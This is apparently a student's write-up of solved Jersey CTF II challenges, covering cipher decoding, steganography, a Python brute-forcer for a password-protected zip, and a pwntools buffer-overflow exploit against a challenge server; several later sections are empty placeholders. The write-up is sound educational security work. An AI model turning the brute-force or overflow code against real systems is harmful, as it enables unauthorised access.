






# Jersey CTF II

### Introduction

JCTF was my first time competing in a CTF outside of challenges for course material during my MS Cybersecurity program at NYU. That being said, I was not entirely certain on what to expect or how I would fare against more seasoned vets at the game. In total, there were over 1100 participants with every continent represented.

The challenge categories included `crypto`, `bin`, `osint`, `forensics`, `misc`, and `web`.

I've played with a fair number of cyber tools thus far through my studies and career, would consider myself a fairly competent coder, and recently got an introduction to rudimentary binary exploitation, but haven't tried formal applications in the osint or forensics categories prior to this competition. My main aim for this competition was to test my skills and learn new tools and techniques in the process, and due to this, I attempted nearly every challenge (...though, a few were a tad outside my current skillset, such as audio challenges). While the challenges were open for ~24 hours, I was only able to spend about ~8 on playing the CTF.

My team finished in the top 10% of participants, so I was quite ecstatic with that for a first timer and I can't wait to see where I could place in next year's! Below are my writeups for the challenges I was able to pwn.

## Quicklinks

1. [crypto](#crypto)
    1. [salad](#salad)
    2. [new-algorithm](#new-algorithm)
    3. [xoracle](#xoracle)
    4. [secret-message](#secret-message)
    5. [would-you-wordle](#would-you-wordle)
    6. [file-zip-cracker](#file-zip-cracker)
2. [bin](#bin)
    1. [patches](#patches)
    2. [misdirection](#misdirection)
    3. [going-over](#going-over)
3. [osint](#osint)
    1. [dns-joke](#dns-joke)
    2. [photo-op-spot](#photo-op-spot)
    3. [mystery](#mystery)
    4. [rarity](#rarity)
    5. [contributor](#contributor)
4. [forensics](#forensics)
    1. [stolen-data](#stolen-data)
    2. [speedy-at-midi](#speedy-at-midi)
    3. [data-backup](#data-backup)
    4. [scavenger-hunt](#scavenger-hunt)
    5. [corrupted-file](#corrupted-file)
5. [misc](#misc)
    1. [firewall-rules](#firewall-rules)
    2. [snort-log](#snort-log)
    3. [we-will](#we-will)
    4. [filtered-feeders](#filtered-feeders)
    5. [bank-clients](#bank-clients)
    6. [dnsmasq-ip-extract](#dnsmasq-ip-extract)
    7. [check-the-shadows](#check-the-shadows)
6. [web](#web)
    1. [apache-logs](#apache-logs)
    2. [seigwards-secrets](#seigwards-secrets)
    3. [heres-my-password](#heres-my-password)
    4. [buster](#buster)
    5. [flag-vault](#flag-vault)
    6. [cookie-factory](#cookie-factory)

--------------------------------------------------------------------------------
## Cryptography fun! <a name="crypto"></a>
I'm not sure if it's the heavy emphasis on coding, the nostalgia of making up secret codes as a child, or a newfound passion prof Jack from CSGY6903 instilled in me, but I find these challenges some of the most fun to attack.

That being said, there were two incredibly interesting challenges I spun my wheels on and learned a ton attacking, but was unable to solve completely during the competition, and they were `inDEStructible` and `audio-transmission`. For `inDEStructible`, I tried brute forcing the key in Python by searching over the available keyspace but didn't have any luck, so I'll have to check my approach. For `audio-transmission`, I got to the point of noticing multiple frequency bands that may represent something in bits, but didn't have time to delve further. I will definitely be looking up writeups once available to learn how to approach similar challenges in the future!

For now here are the (much easier...) ones I did solve...

### salad - 50 pts <a name="salad"></a>

**Provided:** atkw{plddp_jrcru_uivjjzex}

**Solution:** This one was a gimme, so using our friend Caesar's cipher, we can quickly deduce our first flag: `jctf{yummy_salad_dressing}`

### new-algorithm - 75 pts <a name="new-algorithm"></a>

**Provided:** On the first day of the job, a new cryptography intern is insisting to upper management that he developed a new encryption algorithm for the company to use for sensitive emails and should get a raise. This seems too good to be true... are you able to prove the intern wrong by decrypting it?

Here's an example of an encrypted email message using the intern's algorithm: `amN0Znt0UllfQUVTX0lOc1QzQGR9`

**Solution:** The provided string looked like base64, so tossing it into CyberChef quick to check, we can see our flag: `jctf{tRY_AES_INsT3@d}`

### xoracle - 150 pts <a name="xoracle"></a>

**Provided:** Check out my cool new encryption service! It's very secure! Connect to `0.cloud.chals.io` on port `19305`.

**Hint:** Read carefully: a small mistake or typo can be all it takes to make an encryption system insecure.

**Solution:**



As we can see from the screenshot, this program XORs our input against a key of some sort, but the flaw is that it seemingly reuses the key for all input provided. Since XOR is its own inverse, we can reverse the provided flag string, then decode the hex string via Python or CyberChef and we are given our flag: `jctf{1_th0U9hT_1t_w45_53Cure_a07b8a01}`

### secret-message - 200 pts <a name="secret-message"></a>

**Provided:** There are two bank heist organizations communicating by sending images of expensive assets to each other, could there be a secret message somewhere? Along with the images, they are sending the same secret_key.txt file with encoded text.

**Hint:** The employees of both organizations passed Decoding 101 in high school, but failed Encryption 101 in college.

**Solution:** The `secret_key.txt` file we are provided contains a string that ends in `%3D%3D`, which looks like url encoding of `=`. Tossing this string in CyberChef, we can see this is the case, which we then decode from base64 to get a string that looks like it's encoded with a Caesar cipher. Decoding once again, we get a message with the string `manchester_united_2022`.

The provided photo must have hidden data in it somehow, so I tried the typical `exiftool` and `binwalk` approach to no avail. Researching other steganography tools, which proved useful in many of this CTF's challenges, I ran `steghide extract -sf Photo.jpg` on the file and discovered a secret message file that was password protected. Using our password from above, we receive our flag: `jctf{QbxVLJrIbP}`

### would-you-wordle - 250 pts <a name="would-you-wordle"></a>

**Provided:** Someone left this secret text string and unfinished Wordle. Can you put them together to get the flag? pUpPHg3KfB15MG2KGtQQMDEECPOF8oa3VA==

**Hint:** Ron's Code

**Solution:**



Ngl, this one scared me at first, as I have been avoiding Wordle like the plague ever since it took over my Twitter and Facebook feeds some months ago. That prior avoidance was now in turn plaguing me further that I did not know how to play Wordle in the slightest. I texted a friend whose family obsessively plays and learned some ground rules for the game: `green letters are good and right, yellow letters are good but wrong, you have 6 guesses to get magic word and want to do it as quickly as possible, and dark grey letters are no good`.

I don't know any English words with H in the middle, so I assumed the start was `Th`, which gave me `THORN`, `THROB`, and `THROW` with my letters left. I decided to leave it at this, as this is a compsci challenge afterall, and what good are computers if we can't at least brute force a couple various options. If the word wasn't in this bunch (spoiler: it was!), then I'd drag out a dictionary for more words to play with.

Going off our hint, I assume it is a reference to RC4, and I toss the provided string to CyberChef to decode the base64 and get seemingly garbage bits. Applying the RC4 recipe next, I try keys of my Wordle guesses to no avail, before realizing it could potentially be lowercase letters as well. My hunch was correct, as `thorn` turns out to be the key to the RC4 cipher, and we gain our flag: `jctf{CryptoIsTheKeyToFun}`

### file-zip-cracker - 450 pts <a name="file-zip-cracker"></a>

**Provided:** We have a secret file that is password protected. However, we have obtained a wordlist of actors that is part of the password. The password is the combination of one of the names on the list with a year.
Format: "Actor_NameYYYY"
Example: "Henry_Cavill1964"

**Solution:**

For this challenge, the quickest and most elegant solution I could see was to brute force given our wordlist and parameters given.

I first generated a file that contained a list of years matching the required length of 4 digits, ranging from 1000-9999.

I then wrote the following script that iterates through all actor name + year options, trying to unzip the file at each iteration. If it is successful, I print out the succeeding password. If not, I continue running. The code is the following:

```
import os
import pyzipper

os.chdir("/home/kali/Desktop/NYU/OffSec/jersey_ctf/file-zip-cracker")

def extractFile(zip_file, password):
    try:
        with pyzipper.AESZipFile(zip_file, 'r', compression=pyzipper.ZIP_DEFLATED, encryption=pyzipper.WZ_AES) as extracted_zip:
            extracted_zip.extractall(pwd=str.encode(password))
        return True
    except Exception as e:
        return False

actors = list(open('actorList.txt', 'r').read().split('\n'))
years = list(open('pins.txt', 'r').read().split('\n'))

for year in years:
    for actor in actors:
        password = actor + ''.join(year)
        print("Trying: %s" % password)
        if extractFile('secret_folder.zip', password):
            print('*' * 20)
            print('Password found: %s' % password)
            print('Files extracted...')
            exit(0)

print('Password not found.')
```

The first time I wrote/ran the script, my check for zip extraction had an incorrect try/except logic, so it ran for hours to no avail and to my frustration at my own stupidity for not validating on a single test case prior to brute forcing. After realizing my mistake, I corrected it to what's above and validated locally before running again. Luckily, the year happened to be a low value, and the script gave us `Johnny_Depp2017` as the password.

After opening the .zip folder, we see a compressed zip file that's password protected, along with a text file with the following contents: `Gur pbqr gb haybpx gur mvc svyr vf: v'ir_tbg_n_wne_bs_qveg_naq_thrff_jung'f_vafvqr_vg`.

As that is certainly not a language I recognize, and I don't think they'd expect us to know Sindarin for this challenge, I go back to my friend CyberChef to try some shift ciphers, and it turns out to be ROT13, which presents us with: `The code to unlock the zip file is: i've_got_a_jar_of_dirt_and_guess_what's_inside_it`.

Opening the zip with the newfound password, we see a flag.mp3. Opening it up, it turns out to be a gif and we are very briefly presented with the following frame for a fraction of a second if you quickly pause:



Aye aye, we have our flag!


--------------------------------------------------------------------------------

## Binary exploitation <a name="bin"></a>
This section included some new types of files that I was unable to solve, such as .jar files and windows .dlls. I had only been exposed to x86 previously, so I will definitely be doing some reading in these new categories to become familiar for future challenges.

### patches - 200 pts <a name="patches"></a>

**Provided**: Given an objdump of an executable, figure out what hexadecimal instructions are needed to nop to get the jctf flag to stdout

**Hint:** Simply enter the opcodes

**Solution:** We are provided an objdump of a file and can see our flag in the `.rodata` along with several function chunks for `<main>`, `<a>`, and `<b>`. Following through the assembly, we find a JLE that if skipped, will fall into our desired call. The opcodes for this are `7e0a`. The relevant excerpt is below:

```
11a9:	83 7d ec 1d          	cmp    DWORD PTR [rbp-0x14],0x1d    | comparison to jump on
11ad:	7e 0a                	jle    11b9 <main+0x42>             | we don't want this jump to occur
11af:	b8 00 00 00 00       	mov    eax,0x0                      | zero out RAX
11b4:	e8 90 ff ff ff       	call   1149 <a>                     | thing we want to call
```
Our flag is `jctf{7e0a}`

### misdirection - 250 pts <a name="misdirection"></a>

**Provided:** Where'd the flag go?

**Hint:** There are many ways to solve this challenge, some of which are much easier than others.

**Solution:** Opening this binary in Ghidra, we are given a fairly simple main function:


We have a loop that runs through 37 iterations, XORing 2 buffer arrays together, followed by the program printing out this result to file descriptor 5. Since there is no challenge server provided, I am going to assume the flag is this output.

One possible solution is that we XOR the two arrays by hand, but I'm lazy. So instead, if we redirect the output to something like `stdout` instead of `5`, we receive our flag:



### going-over - 350 pts <a name="going-over"></a>

**Provided:** My friends said they were going on a trip but I think they ran into some trouble... They sent me these two files before we lost contact (*src.c* and *going-over*).
`nc 0.cloud.chals.io 10197`

**Solution:** My first steps when approaching a new binary are to run `checksec`, `file`, and `strings | grep <flag format>` for some easy wins. While this challenge isn't *that* easy, popping it open in Ghidra makes it pretty apparent what we're working with and it's nearly as easy:



An unchecked `gets` call? BOF all day every day. They also provided a libc source file, so I originally assumed we may be doing GOT overwrite or ROP, but conveniently for us, they were so kind as to leave an unused function laying around that already takes care of our shell call for us:



With that in mind, let's break out Python and pwntools to quickly grab this flag:

```
from pwn import *

context.binary = elf = ELF('./going-over')

p = remote('0.cloud.chals.io', 10197)
p.recvuntil(b"I can't find it!!!")
# p = process("./going-over")

payload = flat(b'A'*20, elf.sym['grab_ledge'])
print("Payload: {}".format(payload))
p.sendline(payload)

print(p.clean())
p.interactive()
p.close()
```
Our flag is: `jctf{ph3w_ju57_1n_71m3}`

--------------------------------------------------------------------------------

## Open Source Intelligence <a name="osint"></a>
OSINT is new to me, and aside from playing around on my own time or getting an overview of a few tools in my Penetration Testing class at NYU, I am largely unaware of the tools, techniques, and approaches for these types of challenges. As such, this was an excellent learning opportunity to poke around and add to my toolkit.

### dns-joke - 100 pts <a name="dns-joke"></a>

**Provided:**

**Hint:**

**Solution:**

### photo-op-spot - 250 pts <a name="photo-op-spot"></a>

**Provided:**

**Hint:**

**Solution:**

### mystery - 250 pts <a name="mystery"></a>

**Provided:**

**Hint:**

**Solution:**

### rarity - 350 pts <a name="rarity"></a>

**Provided:**

**Hint:**

**Solution:**

### contributor - 400 pts <a name="contributor"></a>

**Provided:**

**Hint:**

**Solution:**

--------------------------------------------------------------------------------

## Forensics <a name="forensics"></a>
The second paragraph text

### stolen-data - 150 pts <a name="stolen-data"></a>

### speedy-at-midi - 150 pts <a name="speedy-at-midi"></a>

### data-backup - 250 pts <a name="data-backup"></a>

### scavenger-hunt - 350 pts <a name="scavenger-hunt"></a>

### corrupted-file - 400 pts <a name="corrupted-file"></a>

--------------------------------------------------------------------------------

## Miscellaneous <a name="misc"></a>
The second paragraph text

### firewall-rules - 100 pts <a name="firewall-rules"></a>

### snort-log - 100 pts <a name="snort-log"></a>

### we-will - 150 pts <a name="we-will"></a>

### filtered-feeders - 150 pts <a name="filtered-feeders"></a>

### bank-clients - 250 pts <a name="bank-clients"></a>

### dnsmasq-ip-extract - 300 pts <a name="dnsmasq-ip-extract"></a>

### check-the-shadows - 300 pts <a name="check-the-shadows"></a>

--------------------------------------------------------------------------------

## Web <a name="web"></a>
The second paragraph text

### apache-logs - 100 pts <a name="apache-logs"></a>

### seigwards-secrets - 100 pts <a name="seigwards-secrets"></a>

### heres-my-password - 250 pts <a name="heres-my-password"></a>

### buster - 250 pts <a name="buster"></a>

### flag-vault - 300 pts <a name="flag-vault"></a>

### cookie-factory - 400 pts <a name="cookie-factory"></a>
